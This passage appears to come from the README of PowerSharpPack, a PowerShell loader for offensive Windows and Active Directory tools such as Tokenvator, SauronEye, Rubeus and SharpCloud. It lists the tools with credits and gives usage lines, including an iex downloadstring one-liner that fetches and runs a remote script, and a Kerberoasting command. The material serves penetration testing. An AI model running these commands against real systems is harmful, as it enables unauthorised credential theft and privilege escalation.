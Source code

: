  Find vulnerabilities in AD Group Policy
 
 @Credit to: https://github.com/l0ss/Grouper2

 **Tokenvator**

 A tool to elevate privilege with Windows Tokens
 
 @Credit to: https://github.com/0xbadjuju/Tokenvator

 **SauronEye**

 Search tool to find specific files containing specific words, i.e. files containing passwords.
 
 @Credit to: https://github.com/vivami/SauronEye

Just load the main script with

`iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1')`


and choose the tool as switch parameter for example:

`PowerSharpPack -seatbelt -Command "AMSIProviders"`

![alt text](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/raw/master/images/Example.JPG)

If you want to pass multiple parameters to the binary you can just use quotation marks like:

`PowerSharpPack -Rubeus -Command "kerberoast /outfile:Roasted.txt"`

If you dont want to load all binaries for reasons you can use the per binary Powershell scripts located in the PowerSharpBinaries folder.

Projects which are also available as standalone powershell script:

 **SharpCloud**

 Simple C# for checking for the existence of credential files related to AWS, Microsoft Azure, and Google Compute.
 
 @Credit to: https://github.com/chrismaddalena/SharpCloud

 **SharpSSDP**

 SSDP Service Discovery
 
 @Credit to: https://github.com/rvrsh3ll/SharpSSDP

 **DAFT**

 DAFT: Database Audit Framework & Toolkit
 
 @Credit to: https://github.com/NetSPI/DAFT

 **Get-RBCD-Threaded**

 Tool to discover Resource-Based Constrained Delegation attack paths in Active Directory environments
 
 @Credit to: https://github.com/FatRodzianko/Get-RBCD-Threaded

 **SharpGPO-RemoteAccessPolicies**
